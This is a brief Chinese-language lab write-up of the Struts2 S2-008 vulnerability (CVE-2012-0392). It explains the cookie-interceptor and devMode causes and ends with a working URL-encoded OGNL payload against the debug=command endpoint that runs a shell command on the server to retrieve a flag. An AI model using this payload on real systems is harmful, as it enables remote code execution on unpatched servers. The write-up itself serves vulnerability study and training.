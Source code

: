 # Struts2-008命令执行（CVE-2012-0392）by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

## 漏洞成因

主要利用对传入参数没有严格限制，导致多个地方可以执行恶意代码。

第一种情况其实就是 S2-007，在异常处理时的 OGNL 执行
第二种的 cookie 的方式，虽然在 struts2 没有对恶意代码进行限制，但是java的 webserver（Tomcat），对 cookie 的名称有较多限制，在传入 struts2 之前就被处理，从而较为鸡肋
第三种需要开启 devModedebug 模式

例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式.

影响版本：Struts 2.1.0 - Struts 2.3.1

启动靶场。

![1](./1.png)

利用 POC 拿到 Flag

`/devmode.action?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%29`

![2](./2.png)
